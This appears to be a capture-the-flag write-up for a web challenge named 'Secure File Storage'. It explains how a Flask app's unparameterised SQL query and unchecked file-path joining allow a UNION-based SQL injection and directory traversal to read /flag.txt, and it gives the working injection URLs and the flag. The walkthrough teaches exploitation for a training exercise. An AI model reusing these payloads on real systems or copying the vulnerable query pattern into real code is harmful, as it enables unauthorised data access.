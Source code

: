 # Web: Secure File Storage (477)

The new USCG file storage server has a lot of cool security features to keep you and your sensitive files safe! It seems pretty impossible to exploit...or is it?

[http://storage.challs.uscybergames.com](http://storage.challs.uscybergames.com)

Author: [tsuto](https://github.com/jselliott)

**Files:** [challenge.zip](Files/challenge.zip)

## Writeup

Luckily, we are given the source code for this web challenge!

First, we can see a flag.txt file (not the real flag) in the root directory. And in our Dockerfile, we can see that the flag is in the root directory.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

And we can also see in config.py that the default upload folder is `/app/uploads`.

```py
    UPLOAD_FOLDER = "/app/uploads"
```

In database.py, we also see an interesting function...

```py
def fetch_file_db(user_id,file_id):
    try:
        file = db.session.execute(text(f"SELECT * FROM File WHERE id = {file_id}")).first()
        if file:
            filepath = decrypt(file.filepath)
            filename = decrypt(file.filename)
            if file.user_id == user_id and filepath is not None and filename is not None:
                return {"id":file.id,"filepath":filepath.decode(),"filename":filename.decode(),"title":file.title, "encrypted":file.encrypted}
        return False
    except Exception as e:
        logging.error(e)
        return False
```

Using `db.session.execute` makes this very likely to be vulnerable to SQL injection!

Also, we can find the schema for the file table.

```py
class File(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, nullable=False)
    title = db.Column(db.String(256), nullable=False)
    filename = db.Column(db.String(256), nullable=False)
    filepath = db.Column(db.String(256), nullable=False)
    encrypted = db.Column(db.Integer, nullable=False)
```

This tells us that there is an id, user_id that created the file, title of the file, a filename, a file path, and an integer telling if it was encrypted or not.

In api.py, we can see where this is referenced:

```py
@api.route('/files/download/<file_id>', methods=['GET'])
@isAuthenticated
def download_file(file_id,user):

    if not file_id:
        flash('No file ID provided.',"danger")
        return redirect("/files")
    
    file = fetch_file_db(user["id"],file_id)

    if not file:
        flash('Invalid file provided, or you may not have permission to view this file.',"danger")
        return redirect("/files")
    
    if file["encrypted"]:
        content = open(os.path.join(file["filepath"],file["filename"]),"rb").read()
        F = BytesIO(decrypt(content))
    else:
        F = open(os.path.join(file["filepath"],file["filename"]),"rb")

    return send_file(F, as_attachment=True, download_name=file["filename"])
```

So, it is very likely that there is SQL injection possible in the file downloading endpoint. Also, since this just opens the path from combining the filepath and filename, we might even have directory traversal!

So, we will want to use a filepath of `../../` to traverse back to the root directory and a filename of `flag.txt` to get `/flag.txt`. However, there is a problem...

This is the file upload code:
```py
@api.route('/files/upload', methods=['POST'])
@isAuthenticated
def upload_file(user):

    file = request.files.get("file")
    title = request.form.get("title")

    if not file or file.filename == "":
        flash('You must select a file to upload.',"danger")
        return redirect("/files")
    
    if not title or title == "":
        flash('You must enter a title for your file.',"danger")
        return redirect("/files")
    
    if not allowed_file(file.filename):
        flash(f'The following filetypes are allowed: [{",".join(app.config["ALLOWED_EXTENSIONS"])}]',"danger")
        return redirect("/files")
    
    filename = secure_filename(file.filename)
    filepath = os.path.join(app.config['UPLOAD_FOLDER'],user["username"])
    file.save(os.path.join(filepath,filename))

    #Read and encrypt file contents
    F = open(os.path.join(filepath,filename),"rb")
    content = encrypt(F.read())
    F.close()

    # Write encrypted contents
    F = open(os.path.join(filepath,filename),"wb")
    F.write(content)
    F.close()

    insert_file_db(user["id"],filepath,filename,title)

    flash('File uploaded successfully!',"success")
    return redirect("/files")
```

Notably, the file name is first secured and then encrypted. This is also why the `fetch_file_db` function decrypts the file path and name. But also the file contents are encrypted by default. And since we can control whether or not the file is encrypted through the SQL injection, we can use this to find the encrypted version of our path to then inject.

First, we'll need to make a file, `flag.txt` to upload, containing the contents `../../`.  With this, we can use the file name of this file and use the encrypted contents as the path.

Then, we upload this file.

![Image 1](Screenshots/1.png)

Now, we can see our file here.

![Image 2](Screenshots/2.png)

Hovering over the download icon, we can copy the link and find that the link to the file is `http://storage.challs.uscybergames.com/api/files/download/46989`.

This last number is the ID of the file.

Now, if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20filepath,%200%20from%20File%20where%20id%20=%2046989`, we can get the encrypted filepath.

And our path is `iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=`. 

And if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20'iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=',%200%20from%20File%20where%20id%20=%2046989`, we can get the flag!

When we do this, we get a downloaded file, containing the flag, `SIVUSCG{b1t_fl1pp3d_f1l3s}`!
